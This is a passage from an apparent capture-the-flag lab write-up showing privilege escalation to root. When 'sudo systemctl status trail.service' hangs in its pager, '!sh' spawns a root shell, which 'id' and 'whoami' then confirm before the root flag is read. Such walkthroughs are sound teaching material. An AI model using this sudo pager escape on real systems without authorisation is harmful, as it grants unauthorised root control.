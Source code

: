 - but  I check  the write up again, I should execute following command first 
```
sudo systemctl status trail.service
```
- Finally, the command response will stuck, then execute the following 
```
!sh
```
![](./IMG/41.png)
- I got the root permission 
- Check root user 
```
id 
whoami 
```
![](./IMG/42.png)
![](./IMG/43.png)
- Get root flag
![](./IMG/44.png)
